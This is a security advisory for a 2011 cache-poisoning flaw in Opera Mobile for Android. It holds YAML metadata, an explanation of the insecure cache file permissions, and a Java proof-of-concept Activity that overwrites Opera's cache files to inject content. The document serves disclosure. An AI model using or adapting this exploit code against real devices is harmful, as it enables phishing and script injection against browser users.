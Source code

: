 ```yaml
---
layout: vuln
credit:
    - roeeh
    - yair
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2011-09-20' 
alephid: ALEPH-2011007
date: '2011-09-20'
title: 'Opera Mobile for Android Cache Poisoning XAS'
severity: high
product:
    - Opera Mobile for Android
vulnerable:
    - Version 11.1
mitigation: 
    - Install version version 11.1 update 2 or later
references:
    - src: paper
      url: http://blog.watchfire.com/files/advisory-opera-cp-xas.pdf
 
---
```

The Opera Mobile cache files (metadata and data) have insecure file permissions:
* The cache metadata file (dcache4.url) is globally readable and writable as explained in the paper.
* The cache data itself are globally readable and writable as explained in the paper.

Hence a 3rd party application with no permissions may access Opera Mobile's cache, thus break Android's
sandboxing model:

* It may read the cache. 3rd party parsers are publicly available1.
* It may alter the cache with arbitrary data or code, in order to conduct phishing attacks, or execute JavaScript code in the context of an arbitrary domain.

## Proof-of-Concept ##

See paper for how to generate the injected cache entry.
```java
public class CachePoisoningActivity extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState)
    {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        dumpToFilesystem("dcache4.url",
                         "/data/data/com.opera.browser/cache/dcache4.url");
                         
        dumpToFilesystem("poisonedfile",
                         "/data/data/com.opera.browser/cache/g_0000/poisonedfile");
                         
        Intent i = new Intent();
        i.setClassName("com.opera.browser", "com.opera.Opera");
        i.setData(Uri.parse("http://target/"));
        startActivity(i);
    }
    private void dumpToFilesystem(String assetName, String dstPath)
    {
        try {
            InputStream input = getAssets().open(assetName);
            FileOutputStream output = new FileOutputStream(dstPath);
            byte[] buffer = new byte[1024];
            int len = -1;
            while (-1 != (len = input.read(buffer)))
            output.write(buffer, 0, len);
            output.close();
            input.close();
        } catch (IOException e) {}
     
        File f = new File(dstPath);
        f.setReadable(true, false);
        f.setWritable(true, false);
    }
}
```
